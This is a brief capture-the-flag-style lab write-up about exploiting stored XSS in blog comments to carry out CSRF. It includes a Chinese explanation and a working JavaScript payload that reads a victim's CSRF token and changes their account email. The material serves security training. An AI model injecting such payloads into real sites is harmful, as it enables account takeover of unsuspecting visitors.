 # Lab: Exploiting XSS to perform CSRF

 This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter 

## XSS
* 訪問 post 頁面會導致 email 被改掉，稍微觀察一下，改 email 的 csrf 跟 post comment 的 csrf 是一樣的，用 javascript 實現直接發 request 就可以了
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```